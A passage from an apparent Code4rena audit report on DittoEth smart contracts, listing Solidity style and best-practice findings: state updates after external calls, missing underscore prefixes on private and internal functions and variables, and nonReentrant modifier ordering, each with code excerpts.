/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
161:                         b.prevShortId = lowestSell.prevId;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
165:                         b.matchedAskId = lowestSell.id;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
167:                         b.askId = lowestSell.nextId;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
172:                             b.matchedShortId = lowestSell.id;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
173:                             b.prevShortId = lowestSell.prevId;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
176:                             b.matchedAskId = lowestSell.id;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
180:                         lowestSell.ercAmount -= incomingBid.ercAmount;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
182:                             b.dustShortId = lowestSell.id;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
184:                             lowestShort.ercAmount = lowestSell.ercAmount;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
186:                             b.dustAskId = lowestSell.id;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
187:                             s.asks[asset][lowestSell.id].ercAmount = lowestSell.ercAmount;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
191:                             b.dustShortId = b.dustAskId = 0;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
191:                             b.dustShortId = b.dustAskId = 0;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
194:                     incomingBid.ercAmount = 0;
```

ExitShortFacet.sol ([56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L56-L56), [60-60](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L60-L60), [64-64](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L64-L64), [189-189](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L189-L189), [190-190](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L190-L190), [191-191](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L191-L191), [199-199](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L199-L199), [200-200](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L200-L200), [207-207](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L207-L207)):

```solidity
/// @audit `burnMsgSenderDebt()` is called on line 55, triggering an external call - `balanceOf()`
56:         Asset.ercDebt -= buybackAmount;

/// @audit `burnMsgSenderDebt()` is called on line 55, triggering an external call - `balanceOf()`
60:             s.vaultUser[Asset.vault][msg.sender].ethEscrowed += collateral;

/// @audit `burnMsgSenderDebt()` is called on line 55, triggering an external call - `balanceOf()`
64:             short.ercDebt -= buybackAmount;

/// @audit `createForcedBid()` is called on line 187
189:         e.ercFilled = e.buybackAmount - e.ercAmountLeft;

/// @audit `createForcedBid()` is called on line 187
190:         Asset.ercDebt -= e.ercFilled;

/// @audit `createForcedBid()` is called on line 187
191:         s.assetUser[e.asset][msg.sender].ercEscrowed -= e.ercFilled;

/// @audit `createForcedBid()` is called on line 187
199:             short.collateral -= e.ethFilled;

/// @audit `createForcedBid()` is called on line 187
200:             short.ercDebt -= e.ercFilled;

/// @audit `createForcedBid()` is called on line 187
207:             VaultUser.ethEscrowed -= e.collateral - e.ethFilled;
```

PrimaryLiquidationFacet.sol ([190-190](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L190-L190), [193-193](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L193-L193), [194-194](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L194-L194), [199-199](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L199-L199)):

```solidity
/// @audit `createForcedBid()` is called on line 188
190:         m.ercDebtMatched = m.short.ercDebt - ercAmountLeft;

/// @audit `createForcedBid()` is called on line 188
193:         s.assetUser[m.asset][address(this)].ercEscrowed -= m.ercDebtMatched;

/// @audit `createForcedBid()` is called on line 188
194:         s.asset[m.asset].ercDebt -= m.ercDebtMatched;

/// @audit `createForcedBid()` is called on line 188
199:         m.gasFee = uint88(gasUsed * block.basefee); // @dev(safe-cast)
```

</details>

## [09] Names of `private`/`internal` functions should be prefixed with an underscore

<details>

It is recommended by the [Solidity Style Guide](https://docs.soliditylang.org/en/v0.8.20/style-guide.html#underscore-prefix-for-non-external-functions-and-variables).

There are 65 instances:

BidOrdersFacet.sol ([130-135](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L130-L135), [215-220](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L215-L220), [275-280](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L275-L280)):

```solidity
130:     function bidMatchAlgo(
131:         address asset,
132:         STypes.Order memory incomingBid,
133:         MTypes.OrderHint[] memory orderHintArray,
134:         MTypes.BidMatchAlgo memory b
135:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

215:     function matchlowestSell(
216:         address asset,
217:         STypes.Order memory lowestSell,
218:         STypes.Order memory incomingBid,
219:         MTypes.Match memory matchTotal
220:     ) private {

275:     function matchIncomingBid(
276:         address asset,
277:         STypes.Order memory incomingBid,
278:         MTypes.Match memory matchTotal,
279:         MTypes.BidMatchAlgo memory b
280:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {
```

BridgeRouterFacet.sol ([148-148](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L148-L148)):

```solidity
148:     function maybeUpdateYield(uint256 vault, uint88 amount) private {
```

ExitShortFacet.sol ([213-213](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L213-L213)):

```solidity
213:     function getCollateralRatioNonPrice(STypes.ShortRecord storage short) internal view returns (uint256 cRatio) {
```

PrimaryLiquidationFacet.sol ([229-229](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L229-L229)):

```solidity
229:     function min88(uint256 a, uint88 b) private pure returns (uint88) {
```

RedemptionFacet.sol ([31-34](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L31-L34), [382-384](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L382-L384)):

```solidity
31:     function validRedemptionSR(STypes.ShortRecord storage shortRecord, address proposer, address shorter, uint256 minShortErc)
32:         internal
33:         view
34:         returns (bool)

382:     function calculateRedemptionFee(address asset, uint88 colRedeemed, uint88 ercDebtRedeemed)
383:         internal
384:         returns (uint88 redemptionFee)
```

LibBridgeRouter.sol ([21-21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L21-L21), [39-41](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L39-L41), [113-113](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L113-L113), [144-144](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L144-L144), [198-198](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L198-L198)):

```solidity
21:     function addDeth(uint256 vault, uint256 bridgePointer, uint88 amount) internal {

39:     function assessDeth(uint256 vault, uint256 bridgePointer, uint88 amount, address rethBridge, address stethBridge)
40:         internal
41:         returns (uint88)

113:     function withdrawalFeePct(uint256 bridgePointer, address rethBridge, address stethBridge) internal view returns (uint256 fee) {

144:     function transferBridgeCredit(address asset, address from, address to, uint88 collateral) internal {

198:     function removeDeth(uint256 vault, uint88 amount, uint88 fee) internal {
```

LibBytes.sol ([11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L11-L11)):

```solidity
11:     function readProposalData(address SSTORE2Pointer, uint8 slateLength) internal view returns (MTypes.ProposalData[] memory) {
```

LibOracle.sol ([19-19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L19-L19), [69-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L69-L75), [117-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L117-L124), [131-131](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L131-L131), [149-149](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L149-L149), [156-156](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L156-L156), [162-162](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L162-L162), [168-168](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L168-L168)):

```solidity
19:     function getOraclePrice(address asset) internal view returns (uint256) {

69:     function baseOracleCircuitBreaker(
70:         uint256 protocolPrice,
71:         uint80 roundId,
72:         int256 chainlinkPrice,
73:         uint256 timeStamp,
74:         uint256 chainlinkPriceInEth
75:     ) private view returns (uint256 _protocolPrice) {

117:     function oracleCircuitBreaker(
118:         uint80 roundId,
119:         uint80 baseRoundId,
120:         int256 chainlinkPrice,
121:         int256 baseChainlinkPrice,
122:         uint256 timeStamp,
123:         uint256 baseTimeStamp
124:     ) private view {

131:     function twapCircuitBreaker() private view returns (uint256 twapPriceInEth) {

149:     function setPriceAndTime(address asset, uint256 oraclePrice, uint32 oracleTime) internal {

156:     function getTime(address asset) internal view returns (uint256 creationTime) {

162:     function getPrice(address asset) internal view returns (uint80 oraclePrice) {

168:     function getSavedOrSpotOraclePrice(address asset) internal view returns (uint256) {
```

LibOrders.sol ([30-30](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L30-L30), [35-35](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L35-L35), [40-40](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L40-L40), [55-58](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L55-L58), [78-78](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L78-L78), [82-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L82-L82), [103-103](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L103-L103), [128-128](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L128-L128), [153-153](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L153-L153), [173-178](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L173-L178), [231-234](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L231-L234), [260-266](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L260-L266), [289-289](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L289-L289), [314-314](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L314-L314), [362-367](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L362-L367), [402-409](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L402-L409), [420-420](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L420-L420), [440-447](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L440-L447), [474-479](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L474-L479), [499-499](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L499-L499), [556-561](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L556-L561), [628-628](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L628-L628), [652-652](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L652-L652), [668-668](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L668-L668), [705-710](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L705-L710), [783-788](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L783-L788), [803-803](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L803-L803), [810-810](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L810-L810), [826-830](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L826-L830), [854-854](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L854-L854), [868-868](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L868-L868), [882-882](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L882-L882), [955-955](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L955-L955), [985-985](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L985-L985), [989-989](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L989-L989)):

```solidity
30:     function getOffsetTime() internal view returns (uint32 timeInSeconds) {

35:     function convertCR(uint16 cr) internal pure returns (uint256) {

40:     function increaseSharesOnMatch(address asset, STypes.Order memory order, MTypes.Match memory matchTotal, uint88 eth) internal {

55:     function currentOrders(mapping(address => mapping(uint16 => STypes.Order)) storage orders, address asset)
56:         internal
57:         view
58:         returns (STypes.Order[] memory)

78:     function isShort(STypes.Order memory order) internal pure returns (bool) {

82:     function addBid(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

103:     function addAsk(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

128:     function addShort(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

153:     function addSellOrder(STypes.Order memory incomingOrder, address asset, MTypes.OrderHint[] memory orderHintArray) private {

173:     function addOrder(
174:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
175:         address asset,
176:         STypes.Order memory incomingOrder,
177:         uint16 hintId
178:     ) private {

231:     function verifyBidId(address asset, uint16 _prevId, uint256 _newPrice, uint16 _nextId)
232:         internal
233:         view
234:         returns (int256 direction)

260:     function verifySellId(
261:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
262:         address asset,
263:         uint16 _prevId,
264:         uint256 _newPrice,
265:         uint16 _nextId
266:     ) private view returns (int256 direction) {

289:     function cancelOrder(mapping(address => mapping(uint16 => STypes.Order)) storage orders, address asset, uint16 id) internal {

314:     function matchOrder(mapping(address => mapping(uint16 => STypes.Order)) storage orders, address asset, uint16 id) internal {

362:     function findPrevOfIncomingId(
363:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
364:         address asset,
365:         STypes.Order memory incomingOrder,
366:         uint16 hintId
367:     ) internal view returns (uint16) {

402:     function verifyId(
403:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
404:         address asset,
405:         uint16 prevId,
406:         uint256 newPrice,
407:         uint16 nextId,
408:         O orderType
409:     ) internal view returns (int256 direction) {

420:     function normalizeOrderType(O o) private pure returns (O newO) {

440:     function getOrderId(
441:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
442:         address asset,
443:         int256 direction,
444:         uint16 hintId,
445:         uint256 _newPrice,
446:         O orderType
447:     ) internal view returns (uint16 _hintId) {

474:     function updateBidOrdersOnMatch(
475:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
476:         address asset,
477:         uint16 id,
478:         bool isOrderFullyFilled
479:     ) internal {

499:     function updateSellOrdersOnMatch(address asset, MTypes.BidMatchAlgo memory b) internal {

556:     function sellMatchAlgo(
557:         address asset,
558:         STypes.Order memory incomingAsk,
559:         MTypes.OrderHint[] memory orderHintArray,
560:         uint256 minAskEth
561:     ) internal {

628:     function matchIncomingSell(address asset, STypes.Order memory incomingOrder, MTypes.Match memory matchTotal) private {

652:     function matchIncomingAsk(address asset, STypes.Order memory incomingAsk, MTypes.Match memory matchTotal) private {

668:     function matchIncomingShort(address asset, STypes.Order memory incomingShort, MTypes.Match memory matchTotal) private {

705:     function matchHighestBid(
706:         STypes.Order memory incomingSell,
707:         STypes.Order memory highestBid,
708:         address asset,
709:         MTypes.Match memory matchTotal
710:     ) internal {

783:     function updateOracleAndStartingShortViaThreshold(
784:         address asset,
785:         uint256 savedPrice,
786:         STypes.Order memory incomingOrder,
787:         uint16[] memory shortHintArray
788:     ) internal {

803:     function updateOracleAndStartingShortViaTimeBidOnly(address asset, uint16[] memory shortHintArray) internal {

810:     function updateStartingShortIdViaShort(address asset, STypes.Order memory incomingShort) internal {

826:     function findOrderHintId(
827:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
828:         address asset,
829:         MTypes.OrderHint[] memory orderHintArray
830:     ) internal view returns (uint16 hintId) {

854:     function cancelBid(address asset, uint16 id) internal {

868:     function cancelAsk(address asset, uint16 id) internal {

882:     function cancelShort(address asset, uint16 id) internal {

955:     function handlePriceDiscount(address asset, uint80 price) internal {

985:     function min(uint256 a, uint256 b) internal pure returns (uint256) {

989:     function max(uint256 a, uint256 b) internal pure returns (uint256) {
```

LibSRUtil.sol ([22-24](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L22-L24), [49-51](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L49-L51), [72-74](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L72-L74), [102-105](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L102-L105), [124-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L124-L124), [151-151](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L151-L151)):

```solidity
22:     function disburseCollateral(address asset, address shorter, uint88 collateral, uint256 dethYieldRate, uint32 updatedAt)
23:         internal
24:     {

49:     function checkCancelShortOrder(address asset, SR initialStatus, uint16 shortOrderId, uint8 shortRecordId, address shorter)
50:         internal
51:         returns (bool isCancelled)

72:     function checkShortMinErc(address asset, SR initialStatus, uint16 shortOrderId, uint8 shortRecordId, address shorter)
73:         internal
74:         returns (bool isCancelled)

102:     function checkRecoveryModeViolation(address asset, uint256 shortRecordCR, uint256 oraclePrice)
103:         internal
104:         view
105:         returns (bool recoveryViolation)

124:     function transferShortRecord(address from, address to, uint40 tokenId) internal {

151:     function updateErcDebt(STypes.ShortRecord storage short, address asset) internal {
```

UniswapOracleLibrary.sol ([28-31](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L28-L31), [47-50](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L47-L50)):

```solidity
28:     function getQuoteAtTick(int24 tick, uint128 baseAmount, address baseToken, address quoteToken)
29:         internal
30:         pure
31:         returns (uint256 quoteAmount)

47:     function estimateTWAP(uint128 amountIn, uint32 secondsAgo, address pool, address baseToken, address quoteToken)
48:         internal
49:         view
50:         returns (uint256 amountOut)
```

</details>

## [10] Names of `private`/`internal` state variables should be prefixed with an underscore

<details>

It is recommended by the [Solidity Style Guide](https://docs.soliditylang.org/en/v0.8.20/style-guide.html#underscore-prefix-for-non-external-functions-and-variables).

BridgeRouterFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L26-L26), [27-27](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L27-L27)):

```solidity
26:     address private immutable rethBridge;

27:     address private immutable stethBridge;
```

ExitShortFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L26-L26)):

```solidity
26:     address private immutable dusd;
```

PrimaryLiquidationFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L28-L28)):

```solidity
28:     address private immutable dusd;
```

</details>

## [11] The `nonReentrant` `modifier` should occur before all other modifiers

<details>

This is a best-practice to protect against reentrancy in other modifiers

There are 10 instances:

BidOrdersFacet.sol ([40-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L40-L47)):

```solidity
40:     function createBid(
41:         address asset,
42:         uint80 price,
43:         uint88 ercAmount,
44:         bool isMarketOrder,
45:         MTypes.OrderHint[] calldata orderHintArray,
46:         uint16[] calldata shortHintArray
47:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant returns (uint88 ethFilled, uint88 ercAmountLeft) {
```

ExitShortFacet.sol ([41-44](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L41-L44), [87-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L87-L90), [142-149](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L142-L149)):

```solidity
41:     function exitShortWallet(address asset, uint8 id, uint88 buybackAmount, uint16 shortOrderId)
42:         external
43:         isNotFrozen(asset)
44:         nonReentrant

87:     function exitShortErcEscrowed(address asset, uint8 id, uint88 buybackAmount, uint16 shortOrderId)
88:         external
89:         isNotFrozen(asset)
90:         nonReentrant

142:     function exitShort(
143:         address asset,
144:         uint8 id,
145:         uint88 buybackAmount,
146:         uint80 price,
147:         uint16[] memory shortHintArray,
148:         uint16 shortOrderId
149:     ) external isNotFrozen(asset) nonReentrant onlyValidShortRecord(asset, msg.sender, id) {
```

PrimaryLiquidationFacet.sol ([47-50](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L47-L50)):

```solidity
47:     function liquidate(address asset, address shorter, uint8 id, uint16[] memory shortHintArray, uint16 shortOrderId)
48:         external
49:         isNotFrozen(asset)
50:         nonReentrant
```

RedemptionFacet.sol ([56-61](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L56-L61), [224-227](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L224-L227), [310-310](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L310-L310), [347-350](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L347-L350)):

```solidity
56:     function proposeRedemption(
57:         address asset,
58:         MTypes.ProposalInput[] calldata proposalInput,
59:         uint88 redemptionAmount,
60:         uint88 maxRedemptionFee
61:     ) external isNotFrozen(asset) nonReentrant {

224:     function disputeRedemption(address asset, address redeemer, uint8 incorrectIndex, address disputeShorter, uint8 disputeShortId)
225:         external
226:         isNotFrozen(asset)
227:         nonReentrant

310:     function claimRedemption(address asset) external isNotFrozen(asset) nonReentrant {

347:     function claimRemainingCollateral(address asset, address redeemer, uint8 claimIndex, uint8 id)
348:         external
349:         isNotFrozen(asset)
350:         nonReentrant
```

